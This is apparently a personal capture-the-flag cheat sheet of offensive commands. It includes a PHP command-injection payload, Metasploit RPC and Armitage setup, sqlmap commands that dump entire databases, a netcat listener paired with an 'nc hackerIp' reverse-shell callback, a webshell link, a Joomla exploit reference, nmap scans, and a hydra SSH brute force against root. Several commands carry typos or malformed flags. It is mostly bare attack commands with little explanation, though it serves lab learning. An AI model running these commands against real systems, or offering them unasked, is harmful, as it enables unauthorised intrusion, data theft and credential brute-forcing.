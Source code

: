 # ctf

${system('ls')}


run rpc/
msfrpcd -P mypassword -U myuser -t Basic -n -p 55553

then run armitage/
armitage

snoopy


locate filename


file filename
strings 
binwolk filename



whatweb ip
joomscan
wpsscan


exploit Joomla! 3.7.0


cat 
vi :q!
vi :wq!

cp usr/bi/a b 


sqlmap -u url --dbs


sqlmap - u url --dbs blog --tables


sqlmap -u url --dbs blog --tables users --columns

sqlmap -u url -D database -T table --dump


sqlmap -u url -D database --dump-all --batch


sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -D acuart -T users --dump-all -batch  -v 3



sqlmap -u url --dbs --batch


sqlmap -u http://site-to-test.com/admin/index.php –data=”user=admin&password=admin” -p user


–data = POST data


sqlmap -r file.txt -p username


dirb url

netcat -lnvp 9191 


nc hackerIp 9191



https://resources.infosecinstitute.com/topic/important-sqlmap-commands/


Crowler:
sqlmap -u http://testphp.vulnweb.com/ -crawl=3


cp file newName ========= le nouveau local c'est ou tu est positionner 


https://www.kali.org/tools/webshells/



NMAP


nmap -sV -O 192.168.100.101  ---> service version  - operating sys


nmap -T4 -A -v 192.168.100.101   -->Intense scan


nmap -sS -sU -T4 -A -v    -->Intense scan plus UDP


nmap -T4 -A -v -Pn   --->Intense scan, no ping


nmap -sn    ---> Ping scan


nmap -T4 -F   -->quiq scan


nmap -sV -T4 -O -F --version-light   --> quiq scan plus


nmap -sn --traceroute -->quiq traceroute


nmap -sS -sU -T4 -A -v -PE -PP -PS80,443 -PA3389 -PU40125 -PY -g 53 --script "default or (discovery and safe)"   -->slow comprehensive scan



BRUTFORCE 


hydra -l root -p rockyou.txt -u  -s 22  192.168.160.181 ssh 


https://github.com/jeanphorn/wordlist/blob/master/usernames.txt


cryptography


https://gchq.github.io/CyberChef/


http://www.jsfuck.com/#


https://morsecode.world/international/translator.html


ls -lh /usr/share/wordlists/



https://www.kali.org/tools/wordlists/
